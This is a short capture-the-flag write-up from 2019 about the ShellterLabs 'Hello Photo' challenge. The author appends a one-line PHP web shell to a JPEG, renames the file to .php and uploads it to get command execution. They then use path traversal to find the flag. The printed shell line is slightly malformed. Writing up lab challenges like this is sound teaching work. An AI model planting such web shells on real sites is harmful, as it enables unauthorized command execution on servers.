 +++
title = "Shellter Labs- Hello Photo"
description = ""
type = ["posts","post"]
tags = [
    "ShellterLabs",
    "CTF",
    "Bug",
]
date = "2019-05-29"
categories = [
    "ShellterLabs",
    "CTF",
]
series = ["ShellterLabs"]
[ author ]
  name = "0xSc0ut"
+++

By just seeing the upload button i thought that is surely going to be an executing command using file upload challenge

![](https://paper-attachments.dropbox.com/s_14876C969013F8CA310BF79378B4A72484ECB88169401B4D5240D129E903BE7C_1559029410368_Screen+Shot+2019-05-28+at+1.12.15+PM.png)


Earlier i have performed command execution through an upload action in another CTF, but it was direct file upload without any restriction but here i have restriction that i only have to upload jpeg or gif

![](https://paper-attachments.dropbox.com/s_14876C969013F8CA310BF79378B4A72484ECB88169401B4D5240D129E903BE7C_1559029577670_Screen+Shot+2019-05-28+at+1.15.38+PM.png)


So i searched for reverse shell through images, then i came across a video which showed me how to add a php content to image and change it into php extension  


    echo ‘<?php if($_GET{system($_GET[“cmd”]);}?>’ >> uploadImage.jpg


    mv uploadImage.jpg uploadImage.php

A php file will b created,what we need to do is  just to upload the php file

![](https://paper-attachments.dropbox.com/s_14876C969013F8CA310BF79378B4A72484ECB88169401B4D5240D129E903BE7C_1559030280071_Screen+Shot+2019-05-28+at+1.27.46+PM.png)


It says that my file is uploaded successfully now what we can access the php file which is available in ‘uploads’ directory

![](https://paper-attachments.dropbox.com/s_14876C969013F8CA310BF79378B4A72484ECB88169401B4D5240D129E903BE7C_1559030384719_Screen+Shot+2019-05-28+at+1.29.31+PM.png)


So my command is working properly

Now we have to find the flag, as usual try path traversal

![](https://paper-attachments.dropbox.com/s_14876C969013F8CA310BF79378B4A72484ECB88169401B4D5240D129E903BE7C_1559030449651_Screen+Shot+2019-05-28+at+1.30.40+PM.png)


So here we go found the flag

![](https://paper-attachments.dropbox.com/s_14876C969013F8CA310BF79378B4A72484ECB88169401B4D5240D129E903BE7C_1559030512440_Screen+Shot+2019-05-28+at+1.31.20+PM.png)


**Takeaway:**

Command execution with file upload using image files.
